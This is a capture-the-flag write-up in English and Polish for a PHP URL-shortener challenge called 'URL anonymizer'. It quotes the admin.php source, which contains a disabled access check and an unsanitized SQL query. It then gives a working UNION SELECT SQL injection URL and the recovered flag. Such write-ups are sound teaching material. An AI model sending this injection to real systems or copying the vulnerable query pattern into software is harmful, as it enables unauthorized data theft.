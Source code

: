# URL anonymizer (web, 200p)

###ENG
[PL](#pl-version)

In description of the task we got URI pointing to source of admin.php and information that the application provides URL shortening functionality.
Source of file : http://10.13.37.12/admin.php?source

```php
<?php
include_once('config.php');

if(isset($_GET['source']) && $_SERVER['SCRIPT_FILENAME'] == __FILE__) {
    highlight_file(__FILE__);
    die();
}

//lazy admin approach to "authenticate"
if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
    //die('You are not allowed.');
}

$title      = '';
$content = '';
$page    = @$_REQUEST['page'];
        
switch($page) {
    case '':
    default:
        
    break;
    case 'reports':
        $title = 'Reports';
        $q = $db->query('SELECT * FROM `reports` where view=0');
        while($row = $q->fetch_array()) {
            $content .= '<div class="r"><a href="http://localhost/admin.php?page=report&id='.$row['hash'].'">Report '.$row['id'].'</a><a href="http://localhost/admin.php?page=hide&id='.$row['id'].'">Hide</a></div>';
        }
    break;
    case 'hide':
        $id = intval(@$_REQUEST['id']);
        $db->query('UPDATE reports set view=1 where id='.$id);
    break;
    case 'report':
        if(isset($_GET['id'])) {
            $r        = $db->query('SELECT * FROM `urls` where hash="'.$_GET['id'].'"');
            $r        = $r->fetch_array();
            $content .= 'Clicked: '.(intval($r['hits'])>0?'Yes':'No');
            $content .= '<br>Reported URL: '.$r['url'];
            $db->query('UPDATE reports SET view=1 WHERE hash="'.$db->real_escape_string($_GET['id']).'"');
        }else {
            die('Invalid Request.');
        }
    break;
}
echo showContent($title, $content);
```

In general, we can see two different views , one where we can submit URL to be shortened

![](./screen1.png)

and the other place where we can submit wrongly working URL

![](./report.png)

However, the most interesting part is the admin.php and we can see that inside 'report' section we have unsanitized SQL Injection, therefore we try to reach this URL with already prepared query (UNION SELECT) and get in response:

![](./flag.png)

URL : http://10.13.37.12/admin.php?page=report&id=1%22%20UNION%20SELECT%201,2,flag,4%20from%20flag%20where%201=%221
flag : DCTF{30bce3bb3c2b030c1480179046409729}

###PL version

W opisie zadania otrzymaliśmy  URI wskazujący na źródło pliku admin.php i informacje że aplikacja dostarcza możliwość skracania adresów URL.
Źródło pliku : http://10.13.37.12/admin.php?source

```php
<?php
include_once('config.php');

if(isset($_GET['source']) && $_SERVER['SCRIPT_FILENAME'] == __FILE__) {
    highlight_file(__FILE__);
    die();
}

//lazy admin approach to "authenticate"
if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
    //die('You are not allowed.');
}

$title      = '';
$content = '';
$page    = @$_REQUEST['page'];
        
switch($page) {
    case '':
    default:
        
    break;
    case 'reports':
        $title = 'Reports';
        $q = $db->query('SELECT * FROM `reports` where view=0');
        while($row = $q->fetch_array()) {
            $content .= '<div class="r"><a href="http://localhost/admin.php?page=report&id='.$row['hash'].'">Report '.$row['id'].'</a><a href="http://localhost/admin.php?page=hide&id='.$row['id'].'">Hide</a></div>';
        }
    break;
    case 'hide':
        $id = intval(@$_REQUEST['id']);
        $db->query('UPDATE reports set view=1 where id='.$id);
    break;
    case 'report':
        if(isset($_GET['id'])) {
            $r        = $db->query('SELECT * FROM `urls` where hash="'.$_GET['id'].'"');
            $r        = $r->fetch_array();
            $content .= 'Clicked: '.(intval($r['hits'])>0?'Yes':'No');
            $content .= '<br>Reported URL: '.$r['url'];
            $db->query('UPDATE reports SET view=1 WHERE hash="'.$db->real_escape_string($_GET['id']).'"');
        }else {
            die('Invalid Request.');
        }
    break;
}
echo showContent($title, $content);
```

Po przejściu na  adres aplikacji, możemy zauważyc dwa widoki, jeden w którym możemy wysyłać URL do skrócenia 
![](./screen1.png)

i drugi widok, w którym możemy wysyłać źle działający URL
![](./report.png)

Jednal najciekawszym  elementem jest zasób admin.php w którym możemy zauważyć że w ramach case'a "report" mamy SQL Injection, więc staramy się wysłać zapytanie z przygotowanym zapytaniem (UNION SELECT) i otrzymujemy w odpowiedzi :

![](./flag.png)

URL : http://10.13.37.12/admin.php?page=report&id=1%22%20UNION%20SELECT%201,2,flag,4%20from%20flag%20where%201=%221
flag : DCTF{30bce3bb3c2b030c1480179046409729}
